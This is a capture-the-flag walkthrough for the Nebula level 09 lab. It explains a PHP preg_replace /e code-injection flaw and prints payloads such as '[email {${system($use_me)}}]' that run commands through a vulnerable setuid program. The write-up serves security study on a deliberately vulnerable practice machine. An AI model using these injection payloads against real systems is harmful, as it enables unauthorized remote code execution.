




# Nebula - [LEVEL 09](https://exploit.education/nebula/level-09/)

Level Description:



# Nebula - [LEVEL 09](https://exploit.education/nebula/level-09/) - Solution

Let's observe the ```markup``` function:
```php
function markup($filename, $use_me)
{
  $contents = file_get_contents($filename);

  $contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
  $contents = preg_replace("/\[/", "<", $contents);
  $contents = preg_replace("/\]/", ">", $contents);

  return $contents;
}
```

We can see the call to ```preg_replace``` function.

We know about command injection vulnerability related to this function ([Reference](https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4)).

Let's use this vulnerability to get RCE.

To check it, We can put the following content on ```/tmp/test``` file:
```php
[email {${phpinfo()}}]
```

Then, Let's call to ```./flag09 /tmp/test```:



We can see the output of ```phpinfo()``` function.

Let's try to call to ```system("getflag")```:
```php
[email {${system("getflag")}}]
```



We can see it's failed, As we can see on the function call we have another parameter ```$use_me```, Let's try to use it:
```php
[email {${system($use_me)}}]
```


